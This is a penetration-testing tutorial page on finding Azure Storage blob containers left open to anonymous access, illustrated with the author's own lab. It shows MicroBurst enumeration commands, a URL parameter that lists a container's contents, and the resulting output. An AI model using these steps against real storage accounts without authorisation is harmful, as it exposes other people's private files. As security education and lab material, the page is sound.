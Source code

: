 ```yaml
---
author_name: andrei8055
title: Anonymous Blob Access
description: Finding and accessing files stored in Azure Storage Accounts without authentication.
---
```


<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    [Create an Azure Vulnerable Lab: Part #1 – Anonymous Blob Access](https://0xpwn.wordpress.com/2022/03/05/setting-up-an-azure-pentest-lab-part-1-anonymous-blob-access/) by [Andrei Agape](https://tripla.dk/author/drag0nus/)
</div>

"Storage Accounts" is the service provided by Azure to store data in the cloud. A storage account can used to store:

- Blobs
- File shares
- Tables
- Queues
- VM disks

![Azure Storage Account](../images/azure/anonyous-blob-access/Azure%20Storage%20Types.png)

For this tutorial, we will focus on the Blobs section. Blobs are stored within a container, and we can have multiple containers within a storage account. When we create a container, Azure will ask on the permissions that we grant for public access. We can chose between:

- Private Access – no anonymous access is allowed
- Blob Access – we can access the blobs anonymously, as long as we know the full URL (container name + blob name)
- Container Access – we can access the blobs anonymously, as long we know the container name (directory listing is enabled, and we can see all the files stored inside the container)

As you might have guessed, granting Container Access permission can be easily abused to download all the files stored within the container without any permissions as the only things required to be known are the storage account name and the container name, both of which can be enumerated with wordlists.

## Exploiting Anonymous Blob Access

Now, there are thousands of articles explaining how this can be abused and how to search for insecure storage in Azure, but to make things easier I’ll do a TL:DR. One of the easiest way is to use MicroBurst, provide the storage account name to search for, and it’ll check if the containers exists based on a wordlist saved in the Misc/permutations.txt:

```
PS > import-module .\MicroBurst.psm1
PS> Invoke-EnumerateAzureBlobs -Base 0xpwnstorageacc
Found Storage Account - 0xpwnstorageacc.blob.core.windows.net
Found Container - 0xpwnstorageacc.blob.core.windows.net/public
Public File Available: https://0xpwnstorageacc.blob.core.windows.net/public/flag.txt
```

Alternatively adding ```?restype=container&comp=list``` after the container name:
```
https://<storage_account>.blob.core.windows.net/<container>?restype=container&comp=list
```
Output:
```

<EnumerationResults ContainerName="https://0xpwnstorageacc.blob.core.windows.net/public">
	<Blobs>
		<Blob>
			<Name>flag.txt</Name>
			<Url>
https://0xpwnstorageacc.blob.core.windows.net/public/flag.txt
</Url>
			<Properties>
				<Last-Modified>Sat, 05 Mar 2022 18:02:14 GMT</Last-Modified>
				<Etag>0x8D9FED247B7848D</Etag>
				<Content-Length>34</Content-Length>
				<Content-Type>text/plain</Content-Type>
				<Content-Encoding/>
				<Content-Language/>
				<Content-MD5>lur6Yvd173x6Zl1HUGvtag==</Content-MD5>
				<Cache-Control/>
				<BlobType>BlockBlob</BlobType>
				<LeaseStatus>unlocked</LeaseStatus>
			</Properties>
		</Blob>
	</Blobs>
	<NextMarker/>
</EnumerationResults>
```
